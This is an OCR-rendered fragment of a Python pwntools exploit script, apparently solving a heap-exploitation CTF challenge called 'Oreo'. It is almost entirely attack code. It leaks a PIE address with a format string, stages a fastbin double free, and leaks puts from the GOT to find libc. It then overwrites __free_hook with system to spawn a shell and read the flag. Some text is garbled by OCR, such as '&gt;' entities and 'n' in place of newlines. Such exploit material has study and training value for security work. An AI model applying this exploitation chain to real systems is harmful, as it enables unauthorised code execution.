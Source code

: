 ```
def edit(sh,index,name_value,desc_value):
    sh.recvuntil('&gt; Now please tell me what you want to do :')
    sh.sendline('2')
    sh.recvuntil('&gt; Oreo ID : ')
    sh.sendline(str(index))
    sh.recvuntil('&gt; O : ')
    sh.sendline(name_value)
    sh.recvuntil('&gt; RE : ')
    sh.sendline(desc_value)

def delete(sh,index):
    sh.recvuntil('&gt; Now please tell me what you want to do :')
    sh.sendline('3')
    sh.recvuntil('&gt; Oreo ID : ')
    sh.sendline(str(index))

def show(sh,index):
    sh.recvuntil('&gt; Now please tell me what you want to do :')
    sh.sendline('4')
    sh.recvuntil('&gt; Oreo ID : ')
    sh.sendline(str(index))

if __name__ == "__main__":
    sh = get_sh()
    sh.recvuntil('&gt; Input your code please:')
    sh.sendline('OreOOrereOOreO'+'%14$p')
    sh.recvuntil('&gt; Now please tell me what you want to do :')
    sh.sendline('0')
    PIE_addr=get_address(sh,'We leak an addr : ','# Your Code is OreOOrereOOreO0x','n',True) - 0x202050
    log.success('PIE addr is '+str(hex(PIE_addr)))
    creat(sh,0x60,'Chunk_1',0x70,'Chunk_1')
    creat(sh,0x60,'Chunk_2',0x70,'Chunk_2')
    delete(sh,1)
    delete(sh,2)
    delete(sh,1)
    creat(sh,0x60,p64(0x202080+PIE_addr),0x50,'Chunk_1')
    creat(sh,0x60,'Chunk_2',0x50,'Chunk_2')
    creat(sh,0x60,'Chunk_1',0x50,'Chunk_1')
    sh.recvuntil('&gt; Now please tell me what you want to do :')
    sh.sendline('1')
    sh.recvuntil('&gt; O's length : ')
    sh.sendline(str(0x60))
    sh.recvuntil('&gt; O : ')
    sh.send(p64(0x70)*3+p64(0)*8+p64(0x2020E8+PIE_addr))
    sh.recvuntil('&gt; RE's length : ')
    sh.sendline(str(0x50))
    sh.recvuntil('&gt; RE : ')
    sh.sendline('Chunk_3')
    edit(sh,1,p64(0x2020E8+PIE_addr)+p64(interested.got['puts']+PIE_addr),'Anyvalue')
    show(sh,2)
    puts_addr=get_address(sh,'We get puts address is ','# oreo's O is ','n')
    libc_base=puts_addr-libc.symbols['puts']
    system_addr=libc_base+libc.symbols['system']
    binsh_addr =libc_base+libc.search('/bin/sh').next()
    edit(sh,1,p64(0x2020E8+PIE_addr)+p64(libc.symbols['__free_hook']+libc_base)+p64(binsh_addr),p64(binsh_addr))
    edit(sh,2,p64(system_addr),p64(system_addr))
    delete(sh,3)
    sh.interactive()
    sh.sendline('cat /flag')
    flag=sh.recvuntil('n').strip('n')
    log.success('The flag is '+flag)
```